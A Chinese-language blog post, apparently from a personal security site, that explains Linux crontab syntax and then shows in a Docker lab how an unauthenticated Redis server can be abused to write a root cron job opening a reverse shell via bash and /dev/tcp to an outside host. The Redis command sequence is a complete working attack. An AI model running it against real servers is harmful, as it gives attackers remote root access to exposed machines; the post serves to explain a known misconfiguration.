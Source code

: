 ```yaml
---
layout: post
title: "利用Linux定时任务crontab反弹shell"
date: 2017-11-12
tags:
  Linux
  Redis
categories:
  Linux
---
```

# 0x01 定时任务
cron是linux中常用的定时任务，可以在无人工干预的情况下运行作业，通过crontab命令我们可以在固定的间隔时间执行指定的系统指令或shell脚本，这个命令在自动化运维中常常用来进行周期性的日志分析和数据备份等工作。
```
usage:	crontab [-u user] file
	crontab [ -u user ] [ -i ] { -e | -l | -r }
		(default operation is replace, per 1003.2)
	-e	(edit user's crontab)
	-l	(list user's crontab)
	-r	(delete user's crontab)
	-i	(prompt before deleting user's crontab)
```
crontab配置文件为``/etc/crontab``，存放执行的crontab脚本文件的路径为``/etc/cron.d``，存放每个用户的crontab任务的目录在debian系统中一般为``/var/spool/cron/crontabs``，centos系统中一般为``/var/spool/cron``

crontab文件一般格式为：
* 第1列分钟0～59
* 第2列小时0～23（0表示子夜）
* 第3列日1～31
* 第4列月1～12
* 第5列星期0～7（0和7表示星期天）
* 第6列要运行的命令

如下

```
# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
```

此外还有一些简单的语法：

| 符号 | 含义 |
| :------: | :------: |
| * | 表示任意时间，00 12 * * * 则表示每月每周每日的12时执行 |
| - | 表示一个时间范围，00 11-13 * * * 则表示每月每周每日的11 12 13时整点执行 |
| , | 表示分隔时间段，30 11,13 * * * 则表示每月每周每日的11 13点半执行 |
| /n | 表示每隔n单位时间，*/10 * * * * 则表示每隔十分钟执行 |

使用centos的Docker镜像下进行测试：

![](https://github.com/c1h3ng/c1h3ng.github.io/blob/master/assets/images/crontab-test.png?raw=true)

# 0x02 redis未授权访问
redis是生产中常用的Nosql数据库，默认安装后无需认证即可使用，若未添加用户认证或未配置好防火墙规则，可导致6379端口暴露在公网，且无需认证，可远程连接配置不当的redis server，容易被恶意利用入侵服务器，如下某存在未授权访问漏洞的服务器：

![](https://github.com/c1h3ng/c1h3ng.github.io/blob/master/assets/images/redis-info.png?raw=true)

# 0x03 利用crontab反弹Shell
本地使用docker搭建的ubuntu镜像进行测试，ubuntu中redis为默认配置，无需认证即可登录：

![](https://github.com/c1h3ng/c1h3ng.github.io/blob/master/assets/images/redis-ubuntu.png?raw=true)

利用redis写定时任务反弹shell
```bash
172.17.0.2:6379> set shell "\n\n\n\n* * * * * bash -i >& /dev/tcp/172.17.0.1/1234 0>&1\n\n\n\n"
OK
172.17.0.2:6379> config set dir /var/spool/cron/crontabs/
OK
172.17.0.2:6379> config set dbfilename root
OK
172.17.0.2:6379> save
OK
```

![](https://github.com/c1h3ng/c1h3ng.github.io/blob/master/assets/images/redis-crontab.png?raw=true)

成功反弹shell：

![](https://github.com/c1h3ng/c1h3ng.github.io/blob/master/assets/images/crontabshell.png?raw=true)

如果config set过程报错，提示权限不够，很可能是redis被降权运行，没有权限对/var/spool/cron/目录进行写操作。
